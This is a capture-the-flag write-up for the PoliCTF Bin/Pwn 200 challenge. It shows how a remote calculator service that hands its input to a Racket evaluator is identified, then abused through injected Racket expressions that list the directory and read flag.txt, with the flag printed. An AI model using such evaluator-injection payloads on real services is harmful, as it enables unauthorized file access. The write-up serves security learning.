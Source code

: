 # PoliCTF Bin/Pwn 200

Bin 200 exposes a calculator application running on some port.

    mah@mah-MacBookAir ~ % nc -p 9003 calc.challenges.polictf.it 4000
    Write the first number:5
    Write the operator:*
    Write the second number:5
    25

The calculator concatenates \[Operator Text] \[First Number Text] \[Second Number
Text] and runs a polish notation calculation on the text. The polish
notation calculation is actually a racket evaluator. I imagine source
logic sort of like:

    echo "( $OPERATOR_TEXT $FIRST_NUMBER_TEXT $SECOND_NUMBER_TEXT )" | racket

Racket was determined by a few things. First consider Polish notation
languages. The calculator handled fraction math and responded to scheme
boolean functions with #t and #f. Racket from Scheme was distinguished
creating an if statement with no else.

    Write the first number:if #t 1
    Write the operator:
    Write the second number:

This stalls and fails, so it is racket.

We can then find and expose the flag

    Write the first number:foldr (lambda (x y) (string-append x " " y)) "" (map (lambda (x) (path->string x)) (directory-list (current-directory)))
    Write the operator:
    Write the second number:
    flag.txt challenge

    Write the first number:read-line (open-input-file "flag.txt")
    Write the operator:
    Write the second number:
    cb1228e2387cc12ad30fd4243fc23a0

Interestingly, functions file->string and system don't work.
